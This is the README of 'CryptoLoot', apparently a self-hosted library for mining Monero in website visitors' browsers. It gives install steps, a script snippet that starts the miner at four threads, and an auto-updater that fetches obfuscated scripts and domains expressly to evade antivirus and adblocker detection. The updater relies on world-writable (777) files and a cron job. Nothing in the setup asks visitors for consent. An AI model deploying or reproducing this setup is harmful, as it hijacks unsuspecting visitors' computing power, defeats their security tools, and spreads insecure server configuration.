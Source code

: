 # cryptoloot

Self Hosted Library for CryptoLoot v2.0
=======================================

Working with Monero v10 (Cryptonight v4/CryptoNightR) March 9th, 2019 Hardfork Release
========================================================================


How to Install:
1) Download https://github.com/Crypto-Loot/cryptoloot/archive/master.zip and uncompress at yoursite.com home directory
or alternatively use ```git clone https://github.com/Crypto-Loot/cryptoloot.git```
2) Register at https://crypto-loot.com to get your public site ID, you'll need this for the next step.
3) Add the script to your website, preferably ABOVE </body> tag, and not within the <head></head> tags. Make sure to edit YOUR_PUBLIC_KEY with your site ID from crypto-loot.com:
```text
<script src="lib/crypta.js"></script>
<script>
            var miner=new CRLT.Anonymous('YOUR_PUBLIC_KEY', {
                threads:4,autoThreads:false,throttle:0.2,coin: "xmr"
            });
        miner.start();
</script>
```
NOTE: Also, edit your site key above from the one you have on https://crypto-loot.com

4) All set. Now just send some traffic!

5) Optional: Set to automatically update (to stay up to date with the latest obfuscated scripts and domains to avoid AV/Adblocker detection):
Make sure to install php-curl extension on your server if it does not exist: 

***CentOS:***
```text
yum install php-curl
```
***Debian:***
```text
apt-get install php-curl
```
Change the permissions of these threee files to 777 so they can be overwritten on update:
```text
chmod 777 lib/crypta.js lib/version.txt
```
Install the cron to check for updates once every 12 hours:
```text
0 */12 * * * php /var/www/html/website/updater.php >> /var/www/html/website/cl_log.txt
```

Supported Coins:
===============
xmr: ```coin: xmr```
upx: ```coin: upx```
Mix of both upx & xmr (50/50): ```coin: xmrupx```

Have any questions?
===================
Feel free to contact as at https://crypto-loot.com
